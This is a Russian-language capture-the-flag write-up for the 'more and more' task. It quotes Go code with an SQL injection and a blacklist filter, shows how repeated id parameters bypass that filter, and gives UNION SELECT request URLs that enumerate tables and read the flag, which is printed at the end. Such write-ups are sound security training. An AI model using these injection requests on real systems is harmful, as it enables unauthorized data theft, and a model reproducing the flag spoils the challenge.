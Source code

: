 # more and more

Смотрим исходники, замечаем sql-инъекцию
```
id := strings.Join(validate(r.URL.Query()["id"]), " ")
query := fmt.Sprintf("SELECT note FROM notes WHERE id = %s", id)
```
Также обращаем внимание на довольно странный фильтр в функции validate
```
func validate(words []string) (res []string) {
	for _, w := range words {
		w = strings.ReplaceAll(w, "\n", "")
		w = strings.ReplaceAll(w, " ", "")
		w = strings.ReplaceAll(w, "\r", "")
		w = strings.ReplaceAll(w, "\t", "")
		w = strings.ReplaceAll(w, "+", "")
		w = strings.ReplaceAll(w, "%2b", "")
		w = strings.ReplaceAll(w, "%2B", "")
		w = strings.ReplaceAll(w, "%20", "")
		w = strings.ReplaceAll(w, "%5c%6e", "")
		w = strings.ReplaceAll(w, "%5c%6E", "")
		w = strings.ReplaceAll(w, "%5C%6E", "")
		w = strings.ReplaceAll(w, "%5C%6e", "")
		w = strings.ReplaceAll(w, "%5c%74", "")
		w = strings.ReplaceAll(w, "%5C%74", "")
		w = strings.ReplaceAll(w, "%5C%72", "")
		w = strings.ReplaceAll(w, "%5c%72", "")
		w = strings.ReplaceAll(w, "id", "")
		w = strings.ReplaceAll(w, "/", "")
		w = strings.ReplaceAll(w, "*", "")
		w = strings.ReplaceAll(w, "%2A", "")
		w = strings.ReplaceAll(w, "%2F", "")
		w = strings.ReplaceAll(w, "%2a", "")
		w = strings.ReplaceAll(w, "%2f", "")
		w = strings.ReplaceAll(w, "%09", "")
		w = strings.ReplaceAll(w, "%0A", "")
		w = strings.ReplaceAll(w, "%0a", "")
		w = strings.ReplaceAll(w, "%0C", "")
		w = strings.ReplaceAll(w, "%0c", "")
		w = strings.ReplaceAll(w, "%0D", "")
		w = strings.ReplaceAll(w, "%0d", "")

        res = append(res, w)
	}
	return

```

Если присмотреться, можно заметить, что функция не фильтрует слова и цифры.
Ещё раз смотрим в код на go и замечаем, что r.URL.Query() возвращает тип данных map[string][]string, пример
```
r.URL.Query() == map[string][]string{
    "id": {"1"},
}
```
соответственно r.URL.Query()["id"] вернёт 
```
[]string{"1"}
```
Но что если мы укажем несколько параметров id
```
d=1&id=2&id=3

```
```
r.URL.Query() == map[string][]string{
    "id": {"1", "2", "3"},
}

r.URL.Query()["id"]

```
```
[]string{"1", "2", "3"}
```
В конце Join склеит всё в одну строку и передаст в sql запрос

---
Теперь понятно как можно внедрить sql иньекции в данном запросе, начнём с перечисления всех таблиц
```
more-and-more.tasks.2025.ctf.cs.msu.ru/get-by-id?id=1&id=UNION&id=SELECT&id=table_name&id=FROM&id=information_schema.tables
```
из большого вывода нас интересует только
```
180	"flag"
```
Читаем флаг
```
http://more-and-more.tasks.2025.ctf.cs.msu.ru/get-by-id?id=1&id=UNION&id=SELECT&id=flag&id=FROM&id=flag

```
```
"MSKCTF{y0u_must_n3v3r_f0rget_ab0ut_http_p4r4m3t3r_p011t10n}"
```

---
# Flag: MSKCTF{y0u_must_n3v3r_f0rget_ab0ut_http_p4r4m3t3r_p011t10n} 


